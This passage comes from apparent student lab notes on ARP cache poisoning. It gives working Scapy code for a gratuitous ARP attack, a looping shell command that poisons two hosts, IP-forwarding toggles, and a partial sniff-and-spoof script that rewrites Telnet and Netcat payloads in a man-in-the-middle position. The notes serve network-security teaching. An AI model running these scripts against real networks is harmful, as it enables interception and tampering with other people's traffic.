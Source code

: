 3.  **Task 1.C: Gratuitous ARP Request Attack** (Poison A's cache: `IP_B` is at `MAC_M`)
    ```python
    # On Host M, send as broadcast
    # Announce that IP_B (psrc, pdst) is at MAC_M (hwsrc)
    BROADCAST_MAC = "ff:ff:ff:ff:ff:ff"
    arp_pkt = Ether(src=MAC_M, dst=BROADCAST_MAC) / \
              ARP(op=1, # Request
                  hwsrc=MAC_M, psrc=IP_B,        # Announce IP_B is at MAC_M
                  hwdst=BROADCAST_MAC, pdst=IP_B) # Target IP is also IP_B
    sendp(arp_pkt, iface="eth0", verbose=False)
    ```
    *Key Idea:* Broadcast an ARP request where sender IP and target IP are the IP address being advertised (`IP_B`), with attacker's MAC (`MAC_M`).


**III. Man-in-the-Middle (MITM) Attack**

1.  **Setup:**
    *   **Poison A:** Convince A that `IP_B` is at `MAC_M`.
    *   **Poison B:** Convince B that `IP_A` is at `MAC_M`.
        *   Use ARP Reply attacks (like Task 1.B, but targeted appropriately for each victim).
        *   Run `poison_a.py` and `poison_b.py` continuously in background:
            `while true; do sudo python3 poison_script.py; sleep 2; done`
    *   **IP Forwarding on Attacker (M):**
        *   `sudo sysctl net.ipv4.ip_forward=1` (Enable: to establish initial connection)
        *   `sudo sysctl net.ipv4.ip_forward=0` (Disable: to let Scapy script intercept & modify)

![[z/z ScreenShots/Screenshot 2025-05-16 at 9.51.24 AM.png]]

2.  **Scapy Sniff-and-Spoof (Skeleton for `mitm_telnet.py` / `mitm_netcat.py`):**
    ```python
    from scapy.all import *

    # IP_A, MAC_A, IP_B, MAC_B, MAC_M defined
    # For Netcat: student_id_bytes, replacement_bytes defined

    def spoof_pkt(pkt):
        if IP in pkt and TCP in pkt:
            # Packet from A to B (Client -> Server)
            if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
                newpkt_ip = IP(bytes(pkt[IP])) # Copy L3+
                del(newpkt_ip.chksum)
                del(newpkt_ip[TCP].chksum)
                
                if pkt[TCP].payload:
                    data = pkt[TCP].payload.load
                    # --- MODIFICATION LOGIC ---
                    # Telnet: newdata = data.replace(b'Q', b'Z')
                    # Netcat: newdata = data.replace(student_id_bytes, replacement_bytes)
                    # --------------------------
                    if TCP in newpkt_ip and Raw in newpkt_ip[TCP]: # Clear old payload